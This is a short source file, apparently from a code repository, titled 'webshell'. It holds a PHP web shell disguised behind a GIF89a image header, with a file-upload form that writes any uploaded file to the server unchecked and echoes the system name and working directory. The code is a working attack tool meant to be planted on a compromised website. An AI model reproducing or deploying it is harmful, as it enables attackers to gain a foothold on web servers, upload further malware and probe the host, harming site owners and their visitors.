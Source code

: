 # webshell

GIF89a&#252;%&#247;\u20ac\u20ac\u20ac\u20ac\u20ac\u20ac\u20ac\u20ac\u20ac\u20ac\u20ac
<center><form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">
<center><input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form></center>
<?php if( $_POST['_upl'] == "Upload" ) { if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo 'Done !!'; } else { echo 'Failed :('; }} 
echo "<center><br><b>".php_uname()."</b><br></center>";
echo "<center><p><br><b>".getcwd()."</b><br></p></center>";
?>
